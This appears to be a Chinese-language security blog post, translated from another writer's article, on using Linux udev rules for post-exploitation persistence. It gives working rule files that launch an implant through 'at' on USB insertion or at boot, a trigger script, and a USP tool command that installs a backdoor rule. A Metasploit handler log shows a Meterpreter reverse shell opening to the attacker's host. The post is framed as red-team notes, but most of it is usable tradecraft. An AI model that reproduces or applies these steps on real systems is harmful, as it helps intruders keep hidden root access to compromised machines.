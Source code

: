 ```yaml
---
layout: post
title: Linux 持久化 - udev
description: Leveraging Linux udev for persistence
date: '2024-06-07 08:29:39'
categories: ["persistence"]
tags: ["persistence", "linux"]
---
```


# Linux 持久化 - udev

___

技术来自 <https://ch4ik0.github.io/en/posts/leveraging-Linux-udev-for-persistence/> 本文主要是记录 + 翻译。

## 简介

`udev` 是 Linux 内核的设备管理器，允许用户管理 `/dev/` 目录中的设备并根据硬件事件创建操作。常见的用例包括重命名网络接口或修改特定硬盘插入时的 `udev` 。`udev` 的功能之一是基于硬件事件（例如检测）执行脚本，这使其可被用作持久化。

### 什么是`udev`

[Arch Wiki](https://wiki.archlinux.org/title/Udev):
> `udev` is a userspace system that enables the operating system administrator to register userspace handlers for events. The events received by `udev`’s daemon are mainly generated by the (Linux) kernel in response to physical events relating to peripheral devices. As such, `udev`’s main purpose is to act upon peripheral detection and hot-plugging, including actions that return control to the kernel, e.g., loading kernel modules or device firmware. Another component of this detection is adjusting the permissions of the device to be accessible to non-root users and groups. `udev` is part of systemd and thus installed by default (`systemd-udevd.service`)

概括如下：

- 它允许注册对物理事件响应执行的动作，例如连接或断开连接
- 它是默认安装的，并作为系统服务启用。
- 它在超级用户 `root` 的上下文中运行。

### `udev`规则

`udev` 规则定义事件和要执行的操作之间的关系。他们定义事件处理程序。每个规则都位于一个规则文件中，文件扩展名为 `.rules` 。

#### 保存位置

管理员创建的规则位于 `/etc/udev/rules.d/` ，系统提供的或动态生成的分别位于 `/usr/lib/udev/rules.d/` 和 `/run/udev/rules.d/` 。

#### 处理和执行逻辑

规则被集中排序和处理，不考虑源目录。如果两个或多个规则具有相同的名称，则仅执行优先级最高的规则。优先级是根据规则文件的源目录（字母序）来衡量的： `/etc/` > `/run/` > `/usr/` 。

#### 语法和示例

每个规则都由一系列以逗号分隔的键值对构成。此外，一条规则必须至少包含一个匹配键和一个赋值键：

- 规则的第一部分由匹配键组成。它们允许您设置操作（例如，插入或拔出）或设备类型（例如，如果是 USB，则仅属于特定设备的特定属性，例如 ID 等）
- 第二部分是赋值键。它规定了如果先前的匹配键已满则要完成的操作：更改设备名称或其权限、创建符号链接、运行脚本等。
一个典型的 usb 连接规则如下：

```bash
$ cat /etc/udev/rules.d/test.rules
KERNEL=="sdb[0-9]", SUBSYSTEMS=="usb", ENV{ID_SERIAL_SHORT}=="E0D55EA57414F5B1289F03D5", SYMLINK+="super_usb"
```

可以将 subsystems 指向上层设备，这样即使在系统启动时也会触发规则。比如指向 `usb` 或者 `PCI` 子系统：

```bash
$ cat /etc/udev/rules.d/test.rules
SUBSYSTEMS=="usb", RUN+="/bin/sh -c 'touch /home/test/hi.txt'"
```

## 滥用 `udev` 规则来建立持久化
>
> 假设已经入侵机器并拥有`root`权限

### `udev`限制

- **只能用于运行时间非常短的前台任务**。
- 由于**systemd-udevd.service 上强制执行的默认沙箱，**在 udev 规则内**不允许运行访问网络或挂载/卸载文件系统的程序**。
- **不允许启动守护进程或其他长时间运行的进程；分叉的进程，无论是否分离，都将在事件处理完成后被无条件终止**。

### 绕过`udev`限制

通过规则创建一个新的独立且分离的进程。

- 查询`GTFOBin`使用[`at`](https://gtfobins.github.io/gtfobins/at/)来执行。 `at`允许安排将来命令的执行。查看进程树，它不会附加到`udev` 进程，因此不会受到限制。
- 进程注入。在另一个进程中注入植入 shellcode

#### 使用`at`绕过限制

`at` 是来自官方存储库的二进制文件，并且默认安装在某些发行版中。
生成调用 `at` 的规则 ( `/etc/udev/rules.d/ttp.rules` )，该规则在被调用时立刻执行：

```bash
SUBSYSTEMS=="usb", RUN+="/usr/bin/at -M -f /home/kali/trigger.sh now"
```

`at`指向的脚本 `/opt/scripts/trigger.sh`

```bash
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```

插入 USB 或者重启系统，将会收到连接。

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:4444

                                                                                                                                                                                    [*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Meterpreter session 1 opened (10.211.55.2:4444 -> 10.211.55.14:52043) at 2024-08-26 23:26:31 -0400
```

![fetch vivtim's sysinfo](assets/img/blog/linux-persistence-with-udev-sysinfo.png)

## 利用工具 USP
>
> <https://github.com/grahamhelton/USP>

部署持久化，重启时执行：

```bash
sudo ./usp -p /home/kali/trigger.sh -random
```

查看部署的后门：

```bash
$ cat /etc/udev/rules.d/75-persistence.rules
ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/persistence"

$ cat /persistence
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```
